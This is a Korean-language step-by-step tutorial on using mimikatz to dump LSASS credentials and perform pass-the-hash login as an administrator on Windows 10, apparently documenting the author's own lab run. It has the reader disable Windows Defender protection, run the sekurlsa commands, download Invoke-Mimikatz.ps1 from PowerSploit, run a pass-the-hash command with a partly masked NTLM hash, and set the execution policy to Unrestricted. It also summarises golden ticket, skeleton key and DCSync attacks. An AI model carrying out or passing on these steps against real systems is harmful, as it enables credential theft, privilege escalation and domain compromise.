 ### mimikatz 사용 (lsass 메모리 덤프 및 관리자 계정 로그인)


#### 1. 설치

https://github.com/ParrotSec/mimikatz

위 사이트에서 다운로드 가능하며, Windows 보안 실시간 보호 등을 꺼주어야 다운로드 가능합니다.



- 개요

Mimikatz는 사용자가 메모리 또는 Windows 운영 체제에서 암호, 해시 및 Kerberos 티켓과 같은 인증 자격 증명을 추출할 수 있는 악용 후 도구입니다. 원래 Windows 운영 체제의 보안 취약점을 입증하기 위한 개념 증명 도구로 개발되었지만 현재는 공격자와 보안 전문가 모두가 보안 평가 및 침투 테스트를 수행하는 데 일반적으로 사용됩니다. Mimikatz를 사용하면 공격자는 인증 메커니즘을 우회하고 대상 시스템의 중요한 리소스에 액세스할 수 있는 pass-the-hash, pass-the-ticket 및 골든 티켓 공격과 같은 다양한 공격을 수행할 수 있습니다.


- 기능

Mimikatz는 Windows 시스템에서 다양한 악용 후 작업을 수행하기 위한 다목적 도구입니다. Mimikatz로 할 수 있는 다른 작업은 다음과 같습니다.

* LSASS 메모리 덤프: 이 명령은 LSASS(Local Security Authority Subsystem Service) 프로세스의 메모리에서 암호, 해시 및 Kerberos 티켓과 같은 자격 증명을 추출합니다.
* Pass-the-Hash: 이 기술을 사용하면 공격자가 실제 암호를 모르더라도 사용자 암호의 해시를 사용하여 원격 시스템에 인증할 수 있습니다.
* Pass-the-Ticket: 이 기술을 사용하면 공격자가 실제 사용자의 암호를 모르더라도 Kerberos 티켓을 사용하여 원격 시스템에 인증할 수 있습니다.
* 골든 티켓: 이 기술을 사용하면 공격자가 도메인의 모든 리소스에 액세스하는 데 사용할 수 있는 위조된 Kerberos TGT(Ticket Granting Ticket)를 만들 수 있습니다.
* 실버 티켓: 이 기술을 사용하면 공격자가 도메인의 특정 리소스에 대한 액세스 권한을 얻는 데 사용할 수 있는 위조된 Kerberos 서비스 티켓을 만들 수 있습니다.
* 스켈레톤 키: 이 기술을 사용하면 공격자가 가짜 암호를 도메인 컨트롤러의 메모리에 주입하여 도메인의 모든 사용자에 대한 암호 인증을 효과적으로 우회할 수 있습니다.
* DCSync: 이 기술을 사용하면 관리 권한이 있는 공격자가 도메인 컨트롤러에서 암호 데이터를 복제하여 도메인의 자격 증명 데이터베이스에 효과적으로 액세스할 수 있습니다.
 

#### Pass-The-Hash

Pass-The-Hash는 패스워드값을 사용하는 것이 아닌 패스워드의 해시값을 사용해서 자격증명을 하는 방식입니다. 로그인할 때 우리는 비밀번호를 치지만, Pass-The-Hash 기능을 이용하면 아이디와 해시값을 사용해서 로그인할 수 있습니다. 
Mimikatz를 통해서 lsass 메모리덤프 및 User ID와 NTLM Hash 값을 알아내 일반적인 비밀번호가 아닌 Hash 값으로 로그인할 예정입니다.


#### lsass 메모리 덤프 및 Pass-The-Hash를 이용하여 관리자 계정 시도

* 주의사항
  mimikatz 파일을 다운로드 받은 후 관리자권한으로 실행하여야 에러가 나지 않고 아래와 같이 실행됩니다.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

```

사진
사진

관리자계정이 아닌 다른 계정으로 mimikatz를 실행해주시고 위와 같이 명령어를 입력해주시면 위와 같이 정보를 얻을 수 있습니다.

윈도우10 OS에서도 실행되는 것을 확인했습니다.

위에서 얻은 정보 중 Username, Domain, NTLM 정보를 적어놓습니다. 이후 파워쉘을 실행하고 Mimikatz 파워쉘 스크립트를 아래 명령어로 다운로드 받습니다.

```

Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1

```

위에서 다운로드 받게되면 아래 파일이 생깁니다.

<img width="615" height="44" alt="image" src="https://github.com/user-attachments/assets/1981f31d-f797-413d-90c2-891f11bbc197" />


이후 Pass-The-Hash 기능으로 NTLM hash 값을 이용하여 관리자 계정으로 접근하는 명령어를 실행합니다.

```

invoke-mimikatz -command '"sekurlsa::pth /user:user/domain:DESKTOP-B6EDDU2 /ntlm:c5928614e7dcd1e3ec18503cb1***** /run:powershell.exe"'

```
* 주의사항
기본적으로 위 명령어는 바로 실행되지 않더라구요.

<img width="841" height="105" alt="image" src="https://github.com/user-attachments/assets/7790099f-4fe8-4dda-9140-45f74f68f317" />

위 명령어를 바로 실행할 경우 위 사진과 같은 오류메시지가 발생하고 이를 해결하는 방법으로는 

모든 제약을 푸는 아래 명령어를 입력한 후 시도해주시면 됩니다.

```

Set-ExecutionPolicy Unrestricted

```

관리자 계정 접근이 정상적으로 되었는지 whoami , ipconfig 등 다양한 명령어를 시도해봅니다

<img width="852" height="232" alt="image" src="https://github.com/user-attachments/assets/143ebbad-2d6a-4eb2-9d8e-7b707c94204e" />

위 사진을 보니 정상적으로 제 관리자계정인 user 계정으로 정상 접근됨이 확인되었습니다.


